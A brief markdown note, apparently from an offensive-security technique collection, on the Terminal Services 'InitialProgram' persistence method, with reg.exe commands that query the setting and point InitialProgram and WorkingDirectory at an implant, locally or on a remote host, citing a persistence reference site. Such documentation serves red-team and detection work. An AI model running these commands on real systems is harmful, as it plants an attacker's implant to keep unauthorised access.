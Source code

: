 # TS Initial Program

If it's set to `0x1` then it indicates the RDP is enabled.

```
C:\> reg.exe query "[\\<IP>\]HKCU\SOFTWARE\Policies\Microsoft\Windows NT\Terminal Services" /v fInheritInitialProgram
```

```
C:\> reg.exe add "[\\<IP>\]HKCU\SOFTWARE\Policies\Microsoft\Windows NT\Terminal Services" /t REG_SZ /v InitialProgram /d "C:\path\to\implant.exe"
```


> [!NOTE]
> This is optional.

Set the working directory.

```
C:\> reg.exe add "[\\<IP>\]HKCU\SOFTWARE\Policies\Microsoft\Windows NT\Terminal Services" /t REG_SZ /v WorkingDirectory /d "C:\Windows\System32"
```

---
## References

- [Persistence Info: TS Initial Program](https://persistence-info.github.io/Data/tsinitialprogram.html)